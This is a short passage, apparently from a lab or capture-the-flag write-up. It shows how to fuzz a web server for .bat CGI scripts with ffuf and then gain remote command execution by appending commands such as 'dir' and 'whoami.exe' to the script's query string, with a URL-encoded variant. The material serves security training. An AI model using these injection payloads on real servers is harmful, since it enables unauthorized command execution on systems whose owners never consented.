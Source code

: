 ```
ffuf -w /usr/share/dirb/wordlists/common.txt -u http://10.129.205.30:8080/cgi/FUZZ.bat
```

If we find an endpoint named "lala" we can trigger the RCE by browsing to:

```html
http://10.129.205.30:8080/cgi/lala.bat?&dir
```

We can do a whoami like this:

```
http://10.129.205.30:8080/cgi/welcome.bat?&c:\windows\system32\whoami.exe

# And URL parsed would be:
http://10.129.205.30:8080/cgi/welcome.bat?&c%3A%5Cwindows%5Csystem32%5Cwhoami.exe
```